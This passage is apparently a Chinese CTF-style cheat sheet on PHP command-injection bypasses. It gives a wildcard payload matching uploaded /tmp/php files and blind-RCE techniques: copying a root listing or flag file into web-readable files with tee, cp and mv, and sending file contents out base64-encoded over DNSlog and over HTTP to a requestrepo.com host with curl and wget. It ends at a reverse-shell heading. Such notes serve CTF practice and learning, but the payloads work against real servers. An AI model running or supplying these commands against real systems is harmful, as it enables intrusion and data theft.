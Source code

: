     ?c=.+/???/????????[@-[]
     
    一般来说这个文件在linux下面保存在/tmp/php??????一般后面的6个字符是随机生成的有大小写。（可以通过linux的匹配符去匹配）

注意：通过.去执行sh命令不需要有执行权限

## 无回显rce

无回显的执行函数：

exec()

shell_exec()

`` （反引号）

这些需要php函数echo才可以输出结果

### 1、复制到可访问文件

tee命令：

tee 命令可用于创建或追加写入文件

可配合cat等打开文件命令和管道符将flag写入到规定文件中

例如

    先将根目录复制到某个文件，然后访问查看
    ls /| tee ls.txt
     
    然后输入 url/1.txt  即可查看根目录
    
    再复制flag文件，然后访问查看
    cat /flag.php | tee flag.txt
     
    然后输入 url/falg.txt  即可查看根目录
    
    还可以使用其他的复制方法
    copy /flag.php flag.txt
     
    mv /flag.php flag.txt

### 2、dnslog外带数据法

需要dnslog平台，可自己搭建

    curl dnslog平台url/`cat flag.php|base64`
    wget dnslog平台url/`cat flag.php|base64`

### 3、http外带数据法

```
用http通道带出数据
?cmd=curl%20http://6ms8e9yi.requestrepo.com/?1=`cat%20f*|%20base64`
```

### 4.反弹shell法
